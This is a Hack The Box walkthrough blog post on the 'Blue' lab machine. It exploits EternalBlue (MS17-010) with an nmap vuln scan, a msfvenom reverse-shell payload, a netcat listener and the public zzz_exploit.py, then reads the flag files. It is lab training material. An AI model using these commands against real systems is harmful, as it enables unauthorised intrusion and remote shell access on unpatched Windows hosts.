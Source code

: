```yaml
---
layout: post
title: "Blue"
categories: HTB-Walkthrough
---
```


![Blue](/assets/img/blue/blue.png)

Blue is a very straight forward box, which as the name suggests, gives us an opportunity to explore 'The' exploit that causes people to talk in riddles!

[EternalBlue](https://en.wikipedia.org/wiki/EternalBlue) (MS17-010) is a devastating exploit.

Lets dive straight in with an nmap scan.

`nmap -sV -Pn 10.10.10.40 --script=vuln |tee -a blue.txt`


![nmap](/assets/img/blue/blue-nmap.png)



I'm going to use a version of the exploit, found on [github](https://github.com/worawit/MS17-010), the `zzz_exploit.py` is the one!


<h3>The Exploit</h3>

First, I use msfvenom to generate the payload...

```

msfvenom -p windows/shell_reverse_tcp -f exe-service lhost=10.10.14.16 lport=443 -o ebevil.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe-service file: 15872 bytes
Saved as: ebevil.exe

```

Next, I set my netcat listener to catch the returning shell.

`nc -nlvp 443`



The exploit is simple to execute; in my case the command is:

`python /opt/EternalBlue/zzz_exploit.py 10.10.10.40 ebevil.exe`

![zzz-exploited](/assets/img/blue/zzz-exploited.png)

Its a simple thing then to grab those flags...

```

c:\Users>type haris\desktop\user.txt
type haris\desktop\user.txt
4cxxxxxxxxxxxxxxxxxxxxxxxxxxxxa9
c:\Users>type administrator\desktop\root.txt
type administrator\desktop\root.txt
ffxxxxxxxxxxxxxxxxxxxxxxxxxxxx17
c:\Users>

```

:)


